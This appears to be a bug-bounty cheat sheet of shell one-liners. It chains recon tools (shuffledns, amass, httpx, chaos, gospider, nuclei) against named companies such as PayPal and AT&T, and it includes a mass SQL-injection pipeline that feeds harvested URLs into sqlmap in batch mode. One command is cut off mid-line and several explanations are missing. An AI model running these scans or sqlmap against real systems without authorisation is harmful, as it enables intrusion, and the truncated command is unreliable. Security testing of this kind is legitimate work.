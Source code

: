 
###  ShuffleDNS to domains in file scan nuclei.

- [Explaining command]

```bash
xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1
```


###  Search Asn Amass

- [Explaining command]

Amass intel will search the organization "paypal" from a database of ASNs at a faster-than-default rate. It will then take these ASN numbers and scan the complete ASN/IP space for all tld's in that IP space (paypal.com, paypal.co.id, paypal.me)

```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''
```

###  SQLINJECTION Mass domain file

- [Explaining command]

```bash

httpx -l domains -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```


###  Using chaos search js


- [Explaining command]

Chaos is an API by Project Discovery that discovers subdomains. Here we are querying thier API for all known subdoains of "att.com". We are then using httpx to find which of those domains is live and hosts an HTTP or HTTPs site. We then pass those URLs to GoSpider to visit them and crawl them for all links (javascript, endpoints, etc). We then grep to find all the JS files. We pipe this all through anew so we see the output iterativlely (faster) and grep for "(http|https)://att.com" to make sure we dont recieve output for domains that are not "att.com".

```bash
chaos -d att.com | httpx -silent | xargs -I@ -P20 sh -c 'gospider -a -s "@" -d 2' | grep -Eo "(http|https)://[^/"].*.js+" | sed "s#]
```

###  Search Subdomain using Gospider


- [Explaining command]

GoSpider to visit them and crawl them for all links (javascript, endpoints, etc) we use some blacklist, so that it doesn’t travel, not to delay, grep is a command-line utility for searching plain-text data sets for lines that match a regular expression to search HTTP and HTTPS
